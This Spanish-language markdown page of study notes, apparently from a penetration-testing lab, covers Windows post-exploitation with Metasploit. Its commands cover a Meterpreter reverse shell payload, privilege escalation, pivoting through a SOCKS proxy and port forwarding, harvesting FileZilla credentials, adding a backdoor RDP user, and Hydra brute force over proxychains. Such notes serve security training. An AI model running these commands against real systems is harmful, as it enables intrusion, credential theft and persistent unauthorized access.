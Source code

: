 ## Post-Explotación en Windows

### Descripción

Este apartado está pensado para cuando se obtenga una sesión de Meterpreter mediante Metasploit. Se recomienda utilizar el payload `windows/x64/meterpreter/reverse_tcp`.

### Comandos Útiles en Meterpreter

1. `sysinfo` - Proporciona información detallada del sistema.
2. `getuid` - Muestra el usuario actual.
3. `getsystem` - Intenta realizar una escalada de privilegios.
4. `shell` - Activa una consola interactiva para ejecutar comandos de Windows (por ejemplo, hacer `ping` para verificar conectividad).
5. `Ctrl + C` - Finaliza la sesión actual de shell interactivo.

### Procedimiento de Pivoting

6. Iniciar el módulo de autoroute:
    
    ```bash
    run autoroute -s <red>
    ```
    
7. Poner la sesión en segundo plano:
    
    ```bash
    background
    ```
    
8. Cambiar a otra sesión de Meterpreter:
    
    ```bash
    sessions -i <id>
    background
    ```
    
9. Escaneo de aplicaciones:
    
    ```bash
    use post/windows/gather/enum_application
    set SESSION <id>
    run
    ```
    
10. Obtener credenciales de FileZilla (si aplica):
    
    ```bash
    use post/multi/gather/filezilla_client_cred
    set SESSION <id>
    run
    ```
    
11. Configurar un proxy SOCKS:
    
    ```bash
    use auxiliary/server/socks_proxy
    set SRVPORT 9050
    set VERSION 4a
    exploit
    jobs
    ```
    
12. Escaneo de puertos con proxychains:
    
    ```bash
    proxychains nmap <ip> -sT -Pn -p1-50
    ```
    
13. Creación de un usuario remoto desde la sesión de Meterpreter:
    
    ```bash
    shell
    net user guest_1 guestpwd /add
    net localgroup "Remote Desktop users" guest_1 /add
    net user
    ```
    
14. Acceso remoto con RDP:
    
    ```bash
    xfreerdp /u:guest_1 /p:guestpwd /v:<ip>
    ```
    
15. Prueba de credenciales obtenidas (por ejemplo, FileZilla).

### Encaminamiento de Puertos

16. Redirección de puertos:
    
    ```bash
    portfwd add -l 1234 -p 22 -r <ip_2>
    ```
    

### Ataques de Fuerza Bruta y Conexión SSH

17. Ataque de fuerza bruta con Hydra:
    
    ```bash
    proxychains hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip_2>
    ```
    
18. Conexión SSH:
    
    ```bash
    proxychains ssh user@<ip>
    ```

**Nota:** Según el ejemplo visto aunque el comando `run autoroute -s 10.4.27.0/20` funciona, lo más preciso sería utilizar `10.4.16.0/20`, ya que esta es la red válida según la máscara /20. Metasploit ajusta internamente la red al rango correcto, pero es recomendable ser exacto para evitar confusión en otros entornos o configuraciones más estrictas.
